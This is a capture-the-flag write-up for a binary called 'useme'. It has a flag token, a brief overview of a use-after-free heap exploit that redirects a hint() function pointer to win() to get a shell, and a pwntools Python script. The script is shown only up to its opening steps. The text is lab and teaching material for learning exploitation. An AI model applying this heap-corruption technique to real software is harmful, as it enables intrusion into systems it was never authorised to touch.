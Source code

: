 useme
==========================================================
Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy11c2VtZWRvbnRhYnVzZW1lIiwiaXAiOiIxMDEuMTY0LjMzLjIxOSIsInNlc3Npb24iOiIwZmZkMTIzNi02NGZjLTQyYzYtOTkxZS05ZDUwZTI0ZDM0OTMifQ.Rk7Klo-3-6u9KVs8TLXLci8lAT-azWcYfmozt61XJho}

General overview:
----------------------------------------------------------
1. Use-after free allows for arbitrary memory writes. If you change where the next pointer in a free block is you can change where malloc() will allocate.
2. By writing to an incorrect location you're able to overwrite the pointer to the hint() function in one of the clones to point to win().
3. When invoking the hint it will instead pop the shell.

Script used:
----------------------------------------------------------

```python
#!/usr/bin/env python2

from pwn import *

global p

def create(id, name):
    p.sendlineafter("Choice:", "A")
    p.sendlineafter("ID:", id)
    p.sendlineafter("8):", name)

def destroy(id):
    p.sendlineafter("Choice:", "B")
    p.sendlineafter("ID:", id)

def name(id, name):
    p.sendlineafter("Choice:", "C")
    p.sendlineafter("ID:", id)
    p.sendlineafter("8):", name)

def view(id):
    p.sendlineafter("Choice:", "D")
    p.sendlineafter("ID:", id)
    p.recvuntil("Name: ")
    return u32(p.recvline()[:4])

def hint(id):
    p.sendlineafter("Choice:", "H")
    p.sendlineafter("ID:", id)

p = process("./useme")
elf = p.elf

create("0", "0")
create("1", "1")

destroy("0")
destroy("1")

# Leak the heap address (the back pointer from 1 to 0)
heap = view("1")
name("0", p32(heap + 0x8))

create("2", "3")
```